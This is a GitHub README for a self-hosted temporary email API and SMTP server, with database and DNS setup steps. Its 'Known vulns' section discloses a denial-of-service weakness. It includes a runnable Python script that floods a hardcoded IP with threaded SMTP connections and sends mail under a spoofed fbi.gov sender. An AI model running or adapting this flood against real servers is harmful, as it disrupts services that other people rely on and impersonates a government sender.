 <div id="top"></div>
<p align="center">
  <img src="https://img.shields.io/github/contributors/femboy-party/tempmail-api.svg?style=for-the-badge"/>
  <img src="https://img.shields.io/github/forks/femboy-party/tempmail-api.svg?style=for-the-badge"/>
  <img src="https://img.shields.io/github/stars/femboy-party/tempmail-api.svg?style=for-the-badge"/>
  <img src="https://img.shields.io/github/issues/femboy-party/tempmail-api.svg?style=for-the-badge"/>
  <img src="https://img.shields.io/github/license/femboy-party/tempmail-api.svg?style=for-the-badge"/>
</p>
  
---------------------------------------
  
<br/>
<div align="center">
  <a href="https://github.com/femboy-party/tempmail-api">
    <img src="https://i.imgur.com/fJYAFil.png" alt="Logo" width="120" height="120">
  </a>
  
  <h2 align="center">Tempmail API/Server</h3>

  <p align="center">
    Tempmail API aswell as a SMTP server.
    <br />
    <br />
    <a href="http://tempmail.pink">Website</a>
    ·
    <a href="https://github.com/femboy-party/tempmail-api/issues">Report Bug</a>
    ·
    <a href="https://github.com/femboy-party/tempmail-api/issues">Request Feature</a>
  </p>
</div>
  
---------------------------------------

### Setup
* Firstly create a mongodb account, and proceed to create a new project.
* Now create a new database.
* <img src="https://cdn.discordapp.com/attachments/901454647917694986/901454657812049990/unknown.png">
* Now goto the database overview and goto the collections tab.
* <img src="https://cdn.discordapp.com/attachments/901454647917694986/901454911882035201/unknown.png">
* Now create a new database / collection.
* <img src="https://cdn.discordapp.com/attachments/901454647917694986/901455049618751498/unknown.png">
* Now edit the following files and put your connection url inside.
```
API/database.py
SMTP/database.py
```
* All you have to do now is run main.py on your vps.

---------------------------------------

### Add domains
1. Open your domain management
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898515103249473546/unknown.png">
2. Go to advanced dns
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898515754641653760/unknown.png">
3. Scroll down until you see mail settings
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898515920639651850/unknown.png">
4. Select MXE Record
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898516078861369354/unknown.png">
5. Put <your vps ip> as the value
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898516266401296384/unknown.png">
6. Save and done!

---------------------------------------

### Known vulns
* SMTP Connections, Spamming smtp connections and attempting to send an email will result in the api not responding until you stop trying to connect/send.
  ```py
  import smtplib
  import threading
  
  def send():
      message = """From: dropout <dropout@fbi.gov>
      To: admin <user@domain.com>
      Subject: SMTP Vuln

      Naughty, Naughty vuln
      """
      try:
          smtp = smtplib.SMTP('66.29.131.16')
          smtp.sendmail("dropout@fbi.gov", "user@domain.com", message)         
      except Exception:
          pass
  
  if __name__ == "__main__":
      while True:
          threading.Thread(target=send).start()
  ```

---------------------------------------

### Contact
View my contact information on my [website](https://dropout.black/)
